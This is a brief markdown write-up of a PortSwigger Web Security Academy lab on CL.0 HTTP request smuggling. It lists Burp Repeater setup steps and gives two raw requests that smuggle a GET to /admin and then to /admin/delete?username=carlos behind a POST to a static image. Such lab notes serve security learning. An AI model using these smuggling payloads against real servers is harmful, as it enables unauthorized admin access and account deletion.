


# [CL.0 request smuggling](https://portswigger.net/web-security/request-smuggling/browser/cl-0/lab-cl-0-request-smuggling)

## recon

- have two request the first is below the second is an original `/` request switched to `HTTP/1.1`
- on the first request change it in the options (gear icon) -> **Enable HTTP/1 connection reuse** on
- set the two request in a group
- change the group send option to **Single connection**
- send the requests

```
POST /resources/images/blog.svg HTTP/1.1
Host: 0a9800cb04777771874257b5000600c9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Connection: Keep-Alive

GET /admin HTTP/1.1
X-Ignore: x
```

- this will give back the admin page
- int he second request the there are the requests options for the profile deletion
- that needs to be smuggled next

## exploit

- same setup but the first request will ask for the **carlos** profile delete

```
POST /resources/images/blog.svg HTTP/1.1
Host: 0a9800cb04777771874257b5000600c9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Connection: Keep-Alive

GET /admin/delete?username=carlos HTTP/1.1
X-Ignore: x
```

> recon: 
> exploit: 
